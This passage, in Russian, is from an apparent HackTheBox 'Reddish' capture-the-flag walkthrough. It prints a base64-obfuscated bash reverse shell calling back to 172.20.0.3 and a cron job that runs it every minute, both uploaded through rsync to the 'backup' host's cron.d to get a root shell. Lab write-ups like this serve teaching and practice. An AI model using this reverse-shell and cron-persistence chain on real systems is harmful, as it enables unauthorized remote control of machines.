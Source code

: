 Для некоторых утилитарных целей (например, доставить исполняемый файл `chisel` в контейнер `www`), было открыто еще 100500 вспомогательных туннелей, описание которых я не стал включать в текст прохождения и добавлять на сетевую карту, чтобы не запутывать читателя еще больше.

Остается создать реверс-шелл, cron-задачу, залить это все на `backup`, дождаться запуска cron-а и поймать шелл на Kali. Сделаем же это.

Создаем шелл.

```
root@www:/tmp# echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMjAuMC4zLzIyMjIgMD4mMScK | base64 -d > shell.sh
root@www:/tmp# cat shell.sh
`bash -c 'bash -i >& /dev/tcp/172.20.0.3/2222 0>&1'
```

Создаем cronjob, который будет выполняться каждую минуту.

```
root@www:/tmp# echo '* * * * * root bash /tmp/shell.sh' > shell
```

Заливаем оба файла на `backup` с помощью `rsync`.

```
root@www:/tmp# rsync -a shell.sh rsync://backup:873/src/tmp/
root@www:/tmp# rsync -a shell rsync://backup:873/src/etc/cron.d/
```

И через мгновение нам приходит коннект на 3333-й порт Kali.

![backup-root-shell.png](/assets/images/htb/machines/reddish/backup-root-shell.png)
{:.center-image}

# Финальный захват хоста Reddish

Прогулявшись по файловой системе `backup`, можно увидеть такую картину.

![backup-dev-sda.png](/assets/images/htb/machines/reddish/backup-dev-sda.png)
{:.center-image}
